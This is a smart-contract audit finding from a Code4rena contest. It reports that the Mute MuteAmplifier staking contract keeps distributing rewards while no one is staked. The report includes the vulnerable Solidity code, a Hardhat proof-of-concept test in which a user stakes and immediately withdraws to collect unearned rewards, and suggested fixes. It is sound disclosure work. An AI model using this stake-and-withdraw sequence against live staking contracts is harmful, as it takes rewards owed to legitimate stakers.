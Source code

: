 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- M-01

# [Award is still distributed when there aren't any stakers, allowing users to get reward without staking](https://github.com/code-423n4/2023-03-mute-findings/issues/41) 

# Lines of code

https://github.com/code-423n4/2023-03-mute/blob/main/contracts/amplifier/MuteAmplifier.sol#L95-L118


# Vulnerability details

## Proof of Concept
Consider the update modifier for the amplifier.
```
modifier update() {
        if (_mostRecentValueCalcTime == 0) {
            _mostRecentValueCalcTime = firstStakeTime;
        }

        uint256 totalCurrentStake = totalStake();

        if (totalCurrentStake > 0 && _mostRecentValueCalcTime < endTime) {
            uint256 value = 0;
            uint256 sinceLastCalc = block.timestamp.sub(_mostRecentValueCalcTime);
            uint256 perSecondReward = totalRewards.div(endTime.sub(firstStakeTime));

            if (block.timestamp < endTime) {
                value = sinceLastCalc.mul(perSecondReward);
            } else {
                uint256 sinceEndTime = block.timestamp.sub(endTime);
                value = (sinceLastCalc.sub(sinceEndTime)).mul(perSecondReward);
            }

            _totalWeight = _totalWeight.add(value.mul(10**18).div(totalCurrentStake));

            _mostRecentValueCalcTime = block.timestamp;

            (uint fee0, uint fee1) = IMuteSwitchPairDynamic(lpToken).claimFees();

            _totalWeightFee0 = _totalWeightFee0.add(fee0.mul(10**18).div(totalCurrentStake));
            _totalWeightFee1 = _totalWeightFee1.add(fee1.mul(10**18).div(totalCurrentStake));

            totalFees0 = totalFees0.add(fee0);
            totalFees1 = totalFees1.add(fee1);
        }

        _;
    }
```

Suppose there's been a period with totalCurrentStake = 0, and a user stakes and immediately withdraws in the same transaction.
When the user stakes, update doesn't do anything (including updating _mostRecentValueCalcTime) since totalCurrentStake = 0, and _userWeighted[account] gets set to _totalWeight (which hasn't been updated) in the stake function.
https://github.com/code-423n4/2023-03-mute/blob/main/contracts/amplifier/MuteAmplifier.sol#L349
```
function _stake(uint256 lpTokenIn, address account) private {
        ...
        _userWeighted[account] = _totalWeight;
        ...
    }
```
When the user withdraws, totalCurrentStake is no longer zero. Since _mostRecentValueCalcTime wasn't updated when the user staked (since totalCurrentStake was 0), the reward from the period with no stakers gets added to _totalWeight.

`uint256 sinceLastCalc = block.timestamp.sub(_mostRecentValueCalcTime);`
`value = sinceLastCalc.mul(perSecondReward);`
`_totalWeight = _totalWeight.add(value.mul(10**18).div(totalCurrentStake));`
(These are lines in the update modifier)

As a result, this user who staked and immediately withdrew, got all the reward from the period with no stakers. See the reward calculation:
https://github.com/code-423n4/2023-03-mute/blob/main/contracts/amplifier/MuteAmplifier.sol#L371
```
function _applyReward(address account) private returns (uint256 lpTokenOut, uint256 reward, uint256 remainder, uint256 fee0, uint256 fee1) {
        ...
        reward = lpTokenOut.mul(_totalWeight.sub(_userWeighted[account])).div(calculateMultiplier(account, true));
        ...
    }
```

Observe that the exploit condition is met as soon as the staking period starts (as long as nobody stakes immediately). The code attempts to prevent this situation setting _mostRecentValueCalcTime to firstStakeTime the first time that update is invoked (which must be a stake call).
https://github.com/code-423n4/2023-03-mute/blob/main/contracts/amplifier/MuteAmplifier.sol#L89-L91
```
if (_mostRecentValueCalcTime == 0) {
            _mostRecentValueCalcTime = firstStakeTime;
        }
```

        
However, this doesn't do anything since the user can first set the firstStakeTime by staking as soon as the staking period starts, and then make totalCurrentStake 0 by immediately withdrawing. In fact, observe that this takes away from other staker's rewards since perSecondReward is now lower.
https://github.com/code-423n4/2023-03-mute/blob/main/contracts/amplifier/MuteAmplifier.sol#L98
`uint256 perSecondReward = totalRewards.div(endTime.sub(firstStakeTime));`

Please add the following test to the "advance to start time" context in amplifier.ts (add it [here](https://github.com/code-423n4/2023-03-mute/blob/main/test/amplifier.ts#L157)), and run with `npm run test-amplifier`.
```
it("get reward without staking", async function () {
        await this.lpToken.transfer(this.staker1.address, staker1Initial.toFixed(), {from: this.owner.address});
        await this.lpToken.connect(this.staker1).approve(
          this.amplifier.address,
          staker1Initial.toFixed()
        );
        
        console.log("dmute balance before: " + await this.dMuteToken.balanceOf(this.staker1.address))
        await this.amplifier.connect(this.staker1).stake(1);
        await this.amplifier.connect(this.staker1).withdraw();
        await time.increaseTo(staking_end-10);
        await this.amplifier.connect(this.staker1).stake(1);
        await this.amplifier.connect(this.staker1).withdraw();
        console.log("dmute balance after: " + await this.dMuteToken.balanceOf(this.staker1.address))
      });

      it("get reward with staking", async function () {
        await this.lpToken.transfer(this.staker1.address, staker1Initial.toFixed(), {from: this.owner.address});
        await this.lpToken.connect(this.staker1).approve(
          this.amplifier.address,
          staker1Initial.toFixed()
        );
        console.log("dmute balance before: " + await this.dMuteToken.balanceOf(this.staker1.address))
        await this.amplifier.connect(this.staker1).stake(1);
        //await this.amplifier.connect(this.staker1).withdraw();
        await time.increaseTo(staking_end-10);
        //await this.amplifier.connect(this.staker1).stake(1);
        await this.amplifier.connect(this.staker1).withdraw();
        console.log("dmute balance after: " + await this.dMuteToken.balanceOf(this.staker1.address))
      });
```
Result on my side:
```
advance to start time
        ✓ reverts without tokens approved for staking
dmute balance before: 0
dmute balance after: 576922930658129099273
        ✓ get reward without staking
dmute balance before: 0
dmute balance after: 576922912276064160247
        ✓ get reward with staking
```

This POC is a bit on the extreme side to get the point across. In the first test, the user stakes and then immediately unstakes, while in the second test, the user stakes for the entire period. In the end, the user gets roughly the same amount of reward.


## Impact
After periods with no stakers, users can get reward without staking. This is also possible at the beginning of the staking period, and doing so then will reduce the reward for other users in the process. 

## Tools Used
Manual review, Hardhat

## Recommended Mitigation Steps
Possible solution 1: set a minimum duration that a user must stake for (prevent them from staking and immediately withdrawing)
Possible solution 2: always update _mostRecentValueCalcTime (regardless totalCurrentStake). i.e. move the following line out of the if statement.
https://github.com/code-423n4/2023-03-mute/blob/main/contracts/amplifier/MuteAmplifier.sol#L109

Keep in mind that with solution 2, no one gets the rewards in periods with no stakers - this means that the rescueTokens function needs to be updated to get retrieve these rewards.
